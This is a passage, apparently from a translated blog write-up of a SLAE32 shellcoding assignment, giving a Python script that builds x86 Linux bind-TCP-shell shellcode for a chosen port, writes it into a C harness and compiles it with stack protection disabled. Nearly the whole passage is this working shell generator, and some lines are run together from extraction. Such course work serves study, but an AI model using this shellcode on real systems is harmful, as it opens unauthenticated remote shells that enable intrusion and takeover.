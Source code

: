 # **最终触摸**

最后，我创建了下面的 [python 脚本](https://github.com/bigb0sss/SLAE32/blob/master/Assignment-1/bind-tcp-shell.py)来改变用户输入的端口号，并自动创建和编译`C`二进制文件。

```
**# bind-tcp-shell.py**import sys
import argparse
import subprocess
import string
import socket""" Arguments """
parser = argparse.ArgumentParser(description = '[+] Bind TCP Shell Generator')
parser.add_argument('-p', '--port', help='\tBind Port')
args = parser.parse_args()def error():
    parser.print_help()
    exit(1)def exploit(port):

    # Bind TCP Shell 
    shellcode = '\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2'
    shellcode+= '\\xb0\\x66\\xb3\\x01\\x52\\x53\\x6a\\x02'
    shellcode+= '\\x89\\xe1\\xcd\\x80\\x89\\xc7\\x52\\x52'
    shellcode+= '\\x52\\x66\\x68'

    print "[INFO] Bind Port: " + portport = hex(socket.htons(int(port)))
    a = port[2:4]
    b = port[4:]
    if b == '':
        b = '0'
    port = '\\x{0}\\x{1}'.format(b, a)#port = '\\x11\\x5c' = 4444

    shellcode2 = '\\x66\\x6a\\x02\\x89\\xe6\\xb0\\x66\\xb3'
    shellcode2+= '\\x02\\x6a\\x10\\x56\\x57\\x89\\xe1\\xcd'
    shellcode2+= '\\x80\\xb0\\x66\\xb3\\x04\\x52\\x57\\x89'
    shellcode2+= '\\xe1\\xcd\\x80\\xb0\\x66\\xb3\\x05\\x52'
    shellcode2+= '\\x52\\x57\\x89\\xe1\\xcd\\x80\\x89\\xc7'
    shellcode2+= '\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f'
    shellcode2+= '\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4'
    shellcode2+= '\\x52\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f'
    shellcode2+= '\\x2f\\x62\\x69\\x89\\xe3\\x52\\x53\\x89'
    shellcode2+= '\\xe1\\xb0\\x0b\\xcd\\x80'# Adding shellcode to shellcode.c
    outShellcode = ''
    outShellcode+= '#include<stdio.h>\n'
    outShellcode+= '#include<string.h>\n'
    outShellcode+= '\n'
    outShellcode+= 'unsigned char code[] = \ \n'
    outShellcode+= '"{0}{1}{2}";'.format(shellcode, port, shellcode2)
    outShellcode+= '\n'
    outShellcode+= 'main()\n'
    outShellcode+= '{\n'
    outShellcode+= 'printf("Shellcode Length:  %d", strlen(code));\n'
    outShellcode+= '\tint (*ret)() = (int(*)())code;\n'
    outShellcode+= '\tret();\n'
    outShellcode+= '}\n'
    #print outShellcode# Creating shellcode.c
    filename = "exploit.c"
    outfile = open(filename, 'w')
    outfile.write(outShellcode)
    outfile.close()print "[INFO] Creating File: exploit.c"# Compiling shellcode.c
    subprocess.call(["gcc", "-fno-stack-protector", "-z", "execstack", filename, "-o", "exploit", "-w"])
    print "[INFO] Compiled Executable: exploit"if __name__ == "__main__":
    inputPort = args.port if args.port != None else error()exploit(inputPort)
```
